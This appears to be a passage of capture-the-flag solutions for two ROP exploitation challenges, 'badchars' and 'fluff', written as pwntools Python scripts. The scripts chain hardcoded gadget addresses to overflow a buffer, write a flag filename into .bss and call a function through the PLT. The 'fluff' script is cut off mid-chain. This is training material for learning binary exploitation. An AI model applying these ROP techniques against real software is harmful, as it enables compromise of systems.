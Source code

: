 ## badchars
EXP:
```python
from pwn import *

sh = process('./badchars')

flag_value = 0x7479742f68626c66
plt = 0x400510
bss = 0x601038

pop_r12_15 = 0x40069c
pop_r14_r15 = 0x4006a0
mov_r12_to_r13 = 0x400634
pop_rdi = 0x4006a3
sub_r15 = 0x400630

payload = b'1'*0x28

payload += p64(pop_r12_15)
payload += p64(flag_value) + p64(bss) + p64(0x01) + p64(bss + 0x02)
payload += p64(mov_r12_to_r13)
payload += p64(sub_r15)

payload += p64(pop_r14_r15) + p64(0x01) + p64(bss + 0x03)
payload += p64(sub_r15)

payload += p64(pop_r14_r15) + p64(0x01) + p64(bss + 0x04)
payload += p64(sub_r15)

payload += p64(pop_r14_r15) + p64(0x01) + p64(bss + 0x06)
payload += p64(sub_r15)

payload += p64(pop_rdi) + p64(bss) + p64(plt)

sh.send(payload)
sh.interactive()

```

## fluff
EXP:
```python
from pwn import *

sh = process('./fluff')

pop_rdi = 0x4006a3
pop_rdx = 0x40062a
xlat = 0x400628
stosb = 0x400639
bss = 0x601038
off_len = 0x4000
plt = 0x400620

payload = b'1' * 0x28

payload += p64(pop_rdi) + p64(bss)

# f
payload += p64(pop_rdx) + p64(off_len) + p64(0x4003f4 - 0x3ef2 - 0x0b)
payload += p64(xlat) + p64(stosb)
```